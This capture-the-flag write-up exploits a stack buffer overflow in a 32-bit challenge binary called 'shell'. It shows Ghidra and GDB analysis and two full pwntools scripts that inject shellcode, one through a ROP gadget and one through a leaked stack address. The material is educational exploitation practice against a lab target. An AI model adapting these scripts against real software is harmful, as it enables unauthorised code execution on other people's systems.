










# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!


\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.


\ **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.


\ **Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.


\ **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag

\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 


\ **Figure 6:** GDB read_in function

run the program to get the leaked address


\ **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.


\ **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.


\ **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag


\ **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)


